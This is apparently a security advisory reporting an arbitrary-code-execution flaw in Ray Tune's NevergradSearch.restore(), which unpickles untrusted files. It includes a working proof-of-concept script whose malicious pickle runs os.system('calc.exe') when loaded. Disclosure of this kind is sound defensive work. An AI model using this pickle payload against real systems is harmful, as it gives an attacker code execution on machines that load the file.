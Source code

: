 # Description

`Ray` is an open source framework that provides a simple, universal API for building distributed applications. It is packaged with RLlib, a scalable reinforcement learning library, and Tune, a scalable hyperparameter tuning library. This package is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

`NevergradSearch` class uses `nevergrad` package to optimize hyperparameters. The `restore()` method is supposed to load objects saved with `save()` method. But lack of restriction allowes attacker constructed data to be unpickled.

# Proof of Concept

# Installation
```bash
pip install ray
pip install nevergrad
```

# Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
import nevergrad
from ray.tune.suggest.nevergrad import NevergradSearch

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())
optimizer = nevergrad.optimization.Optimizer(1)
ngSearch = NevergradSearch(optimizer)

with open('payload', 'wb') as f:
    f.write(payload)

ngSearch.restore('payload')
```
